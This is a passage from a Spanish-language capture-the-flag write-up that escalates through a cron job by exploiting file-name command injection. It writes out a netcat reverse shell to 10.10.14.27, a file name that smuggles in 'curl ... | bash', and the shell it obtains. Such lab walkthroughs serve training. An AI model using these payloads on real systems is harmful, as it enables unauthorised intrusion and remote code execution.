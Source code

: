 ```bash

?>
bash-4.2$ cat crontab.guly 
*/3 * * * * php home/guly/check_attack.php
bash-4.2$
```

Tenemos que se está ejecutando la tarea `php home/guly/check_attack.php` a intervalos regulares y dicho programa en php notamos que ejecuta comandos a nivel de sistema para borrar archivos bajo la  ruta `/tmp/` y `/var/www/html/upalods/`. Por lo tanto, primero vamos a crearnos un archivo **index.html** en nuestra máquina:

```bash
#!/bin/bash

nc -e /bin/bash 10.10.14.27 443
```

Compartimos un servidor HTTP con python en la ruta donde se encuentra nuestro archivo **index.html** en cual tiene una reverse shell:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y ahora en la máquina víctima bajo la ruta `/var/www/html/uploads` vamos a crear un archivo de nombre `;curl 10.10.14.27 | bash`:

```bash
bash-4.2$ touch ";curl 10.10.14.27 | bash"
bash-4.2$ ls -l
total 20
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache    0 Mar 21 02:58 ;curl 10.10.14.27 ?| bash
-r--r--r--. 1 root   root      2 Oct 30  2018 index.html
bash-4.2$
```

Ahora debemos esperar a que la tarea se ejecute para obtener acceso a la máquina como el usuario **gyly**:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.146 - - [20/Mar/2022 20:00:02] "GET / HTTP/1.1" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 38090
whoami
guly
```
